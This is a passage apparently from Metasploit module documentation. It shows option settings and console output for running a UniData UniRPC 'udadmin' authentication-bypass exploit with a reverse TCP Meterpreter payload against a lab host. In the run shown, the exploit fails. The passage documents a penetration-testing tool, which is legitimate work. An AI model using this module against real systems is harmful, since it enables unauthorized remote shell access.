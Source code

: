 ```
   UNIRPC_UID       0                yes       Linux uid to authenticate with (must correspond to the username)
   UNIRPC_USERNAME  fake             yes       Linux username to authenticate with (must match the uid)
   URIPATH                           no        The URI to use for this exploit (default is random)


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  ens160           yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as :local: / fake:0:1000
[-] 10.0.0.198:31438 - Exploit aborted due to failure: unexpected-reply: UniRPC server returned something unexpected: UniRPC server returned an error code: Unknown error: 80011
[*] Exploit completed, but no session was created.
```

### Version 8.2.4 with non-root user, unix command target
